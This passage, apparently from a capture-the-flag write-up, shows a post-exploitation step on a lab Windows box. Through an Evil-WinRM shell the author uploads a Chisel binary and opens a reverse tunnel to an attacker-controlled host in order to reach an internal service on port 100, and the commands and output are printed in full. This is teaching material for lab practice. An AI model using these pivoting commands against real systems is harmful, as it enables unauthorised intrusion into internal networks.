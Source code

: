 
#### Process Interaction

Trying to interact with the binary doesn’t work over HTTP or HTTPS:

    
    
    *Evil-WinRM* PS C:\Program Files\ReportManagement> curl http://localhost:100
    The server committed a protocol violation. Section=ResponseStatusLine
    At line:1 char:1
    + curl http://localhost:100
    + ~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
        + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
    *Evil-WinRM* PS C:\Program Files\ReportManagement> curl https://localhost:100
    The underlying connection was closed: An unexpected error occurred on a send.
    At line:1 char:1
    + curl https://localhost:100
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
        + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
    

I’ll start the [Chisel](https://github.com/jpillora/chisel) server on my VM
and upload the Windows binary to Appsanity to get a tunnel to localhost:

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/chisel/chisel_1.9.1_windows_amd64 \programdata\c.exe                              
    Info: Uploading /opt/chisel/chisel_1.9.1_windows_amd64 to \programdata\c.exe
    
    Data: 12008104 bytes of 12008104 bytes copied
    
    Info: Upload successful!
    *Evil-WinRM* PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:10000:127.0.0.1:100
    c.exe : 2024/03/02 03:44:29 client: Connecting to ws://10.10.14.6:8000
        + CategoryInfo          : NotSpecified: (2024/03/02 03:4...10.10.14.6:8000:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError
    2024/03/02 03:44:30 client: Connected (Latency 97.2358ms)
    

There’s an error, but my server shows the tunnel:

    
    
    oxdf@hacky$ ./chisel_1.9.1_linux_amd64 server -p 8000 --reverse 
    2024/03/02 06:37:42 server: Reverse tunnelling enabled
    2024/03/02 06:37:42 server: Fingerprint ds0r8UB0J6WEjmcpLmdcmd7E4Y2D8azZsiBUTmwDJf0=
    2024/03/02 06:37:42 server: Listening on http://0.0.0.0:8000
    2024/03/02 06:44:27 server: session#18: tun: proxy#R:10000=>100: Listening
    

And I can interact with it over `nc`:

    